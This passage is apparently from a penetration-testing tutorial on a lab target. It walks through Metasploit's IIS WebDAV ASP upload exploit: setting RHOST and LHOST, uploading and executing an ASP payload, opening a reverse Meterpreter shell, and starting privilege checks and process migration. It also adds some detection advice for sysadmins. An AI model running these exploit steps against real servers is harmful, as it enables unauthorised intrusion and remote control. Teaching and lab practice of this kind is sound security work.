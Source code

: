 ```shell-session
   0   Automatic
```

We proceed to set the needed parameters. For now, these would be `LHOST`and `RHOST` as everything else on the target seems to be running the default configuration.

#### MSF - Configuring Exploit & Payload

```shell-session
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15

RHOST => 10.10.10.15


msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0

LHOST => tun0


msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Checking /metasploit28857905.asp
[*] Uploading 612435 bytes to /metasploit28857905.txt...
[*] Moving /metasploit28857905.txt to /metasploit28857905.asp...
[*] Executing /metasploit28857905.asp...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Deleting /metasploit28857905.asp (this doesn't always work)...
[!] Deletion failed on /metasploit28857905.asp [403 Forbidden]
[*] Meterpreter session 1 opened (10.10.14.26:4444 -> 10.10.10.15:1030) at 2020-09-03 10:10:21 +0000

meterpreter > 
```

We have our Meterpreter shell. However, take a close look at the output above. We can see a `.asp` file named `metasploit28857905` exists on the target system at this very moment. Once the Meterpreter shell is obtained, as mentioned before, it will reside within memory. Therefore, the file is not needed, and removal was attempted by `msfconsole`, which failed due to access permissions. Leaving traces like these is not beneficial to the attacker and creates a huge liability.

From the sysadmin's perspective, finding files that match this name type or slight variations of it can prove beneficial to stopping an attack in the middle of its tracks. Targeting regex matches against filenames or signatures as above will not even allow an attacker to spawn a Meterpreter shell before being cut down by the correctly configured security measures.

We proceed further with our exploits. Upon attempting to see which user we are running on, we get an access denied message. We should try migrating our process to a user with more privilege.

#### MSF - Meterpreter Migration

```shell-session
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.


meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
```